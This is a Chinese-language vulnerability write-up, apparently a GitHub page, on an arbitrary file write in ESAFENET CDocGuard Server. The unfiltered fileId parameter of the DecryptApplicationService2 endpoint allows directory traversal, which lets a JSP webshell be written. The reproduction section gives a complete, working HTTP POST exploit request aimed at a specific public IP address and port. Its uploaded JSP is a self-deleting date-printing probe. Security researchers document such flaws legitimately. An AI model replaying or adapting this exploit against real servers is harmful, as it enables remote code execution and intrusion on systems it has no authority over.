





# 漏洞分析

漏洞点在DecryptApplicationService2接口，在webxml定位到对应的类





该类的service方法接受了一个fileId参数，并且进行了文件写入的相关操作

首先获取了model的目录，然后拼接上fileId参数赋值给uploadPath变量



返回的是系统运行时一个指定的Path

接下来获取POST的原始数据流，指定一个FileOutputStream，传入uploadPath，再通过buffer流将POST的数据流写到FileOutputStream输出到对应文件中去。

这里由于没有对fileId参数进行过滤，导致可以通过目录穿越符结合jsp后缀写到任意目录下，导致任意文件写入，可写入webshell造成任意代码执行。

# 漏洞复现

```
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/12345.jsp HTTP/1.1
Host: 61.130.48.54:8888
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E3B40EDFAC72A292489DBF7019B4AEA6
Connection: close
Content-Length: 254

<%@page import="java.text.*,java.util.*,java.io.*"%>
<%
SimpleDateFormat df = new SimpleDateFormat("yyy-MM-dd HH:mm:ss");
out.println(df.format(new Date()));
File file = new File(application.getRealPath(request.getServletPath()));
file.delete();
%>
```



访问/CDGServer3/12345.jsp




